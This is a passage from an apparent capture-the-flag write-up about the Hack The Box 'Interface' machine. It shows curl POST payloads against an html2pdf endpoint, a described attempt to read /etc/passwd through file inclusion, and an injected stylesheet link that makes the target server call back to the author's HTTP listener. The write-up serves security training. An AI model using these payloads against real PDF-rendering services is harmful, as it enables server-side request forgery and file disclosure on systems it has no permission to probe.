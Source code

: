 ```bash
```
I mistakenly left a query param here, but nonetheless we find that we can supply `html` key in the JSON payload when POSTing, and we get a 200 response.

Next we try a payload, and opening the resulting file to determine the behaviour of the endpoint:

```bash
$curl -X POST -H "Content-Type: application/json" "http://prd.m.rendering-api.interface.htb/api/html2pdf" -d '{"html": "fooooooooooooooooooooooooo<a href=\"bar.com\">bar</a>oooooooooooooooooooooooo"}' > out.pdf
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100  1551  100  1462  100    89  25306   1540 --:--:-- --:--:-- --:--:-- 27210
$open out.pdf
```

While our anchor tag points at `bar.com`, we have a hyperlink in the resulting PDF pointing at `/var/www/api/bar.com`, which may be helpful -- as it exposes the path from which PDF rendering possibly runs on the target:

![](./assets/2023-04-01-15-02-41-image.png)

I tried sending different payloads with iframes, javascript to manipulate the DOM -- all attempting Local File Inclusion to see if I could read `/etc/passwd` -- but it appears these were being filtered out.

I ran `python -m http.server 8081` locally, and sent the following payload:

```bash
$curl -X POST -H "Content-Type: application/json" "http://prd.m.rendering-api.interface.htb/api/html2pdf" -d '{"html": "aaa<link rel=\"stylesheet\" property=\"stylesheet\" type=\"text/css\" href=\"http://10.10.14.15:8081/\" >bbb"}' > out.pdf
```

It appears this *did* result in the server reaching out to the HTTP server on my machine:

```bash
python -m http.server 8081
Serving HTTP on 0.0.0.0 port 8081 (http://0.0.0.0:8081/) ...
10.10.11.200 - - [01/Apr/2023 17:18:35] "GET / HTTP/1.0" 200 -
```
